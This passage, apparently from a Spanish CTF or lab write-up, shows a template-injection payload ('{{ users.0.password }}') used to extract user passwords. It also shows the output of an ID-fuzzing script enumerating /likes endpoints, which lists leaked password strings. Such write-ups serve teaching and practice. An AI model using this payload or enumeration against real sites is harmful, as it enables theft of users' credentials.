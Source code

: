 Vemos varios `correos` filtrados, ahora por ultimo vamos a intentar filtrar las contraseñas con este ultimo `payload`.

> payload (password)

```
{{ users.0.password }}
```

```shell
python3 fuzzIDs.py
```

Info:

```
🔍 Buscador específico del perfil /profile/37
==================================================
[*] Escaneando endpoints /like/{id} (0-100) para perfil 37...

[*] Escaneando endpoints /likes/<built-in function id> (0-100) para perfil 37...
[+] ENCONTRADO: /likes/1 -> /profile/37 - title="Zer0D@yH@ck"
[+] ENCONTRADO: /likes/2 -> /profile/37 - title="H3xHunt3r!"
[+] ENCONTRADO: /likes/8 -> /profile/37 - title="Byt3B@nd!t123"
[+] ENCONTRADO: /likes/12 -> /profile/37 - title="C0d3Br3@k!"
[+] ENCONTRADO: /likes/17 -> /profile/37 - title="Tr0j@nH0rse!"
[+] ENCONTRADO: /likes/18 -> /profile/37 - title="Tr0j@nH0rse!"
[+] ENCONTRADO: /likes/19 -> /profile/37 - title="aze"
[+] ENCONTRADO: /likes/23 -> /profile/37 - title="mYd4rks1dEisH3re"

============================================================
RESULTADOS - PERFIL 37 ENCONTRADO EN:
============================================================
Endpoint /likes/1 -> /profile/37 - title="Zer0D@yH@ck"
Endpoint /likes/12 -> /profile/37 - title="C0d3Br3@k!"
Endpoint /likes/17 -> /profile/37 - title="Tr0j@nH0rse!"
Endpoint /likes/18 -> /profile/37 - title="Tr0j@nH0rse!"
Endpoint /likes/19 -> /profile/37 - title="aze"
Endpoint /likes/2 -> /profile/37 - title="H3xHunt3r!"
Endpoint /likes/23 -> /profile/37 - title="mYd4rks1dEisH3re"
Endpoint /likes/8 -> /profile/37 - title="Byt3B@nd!t123"

==================================================
BÚSQUEDA RÁPIDA ADICIONAL:
==================================================
[*] Búsqueda rápida del perfil 37 en endpoints /likes/...
✅ ENCONTRADO: /likes/1 -> /profile/37 - title="Zer0D@yH@ck"
✅ ENCONTRADO: /likes/2 -> /profile/37 - title="H3xHunt3r!"
✅ ENCONTRADO: /likes/8 -> /profile/37 - title="Byt3B@nd!t123"
✅ ENCONTRADO: /likes/12 -> /profile/37 - title="C0d3Br3@k!"
✅ ENCONTRADO: /likes/17 -> /profile/37 - title="Tr0j@nH0rse!"
✅ ENCONTRADO: /likes/18 -> /profile/37 - title="Tr0j@nH0rse!"
✅ ENCONTRADO: /likes/19 -> /profile/37 - title="aze"
✅ ENCONTRADO: /likes/23 -> /profile/37 - title="mYd4rks1dEisH3re"

🎯 Búsqueda completada. Total de apariciones del perfil 37: 8
```

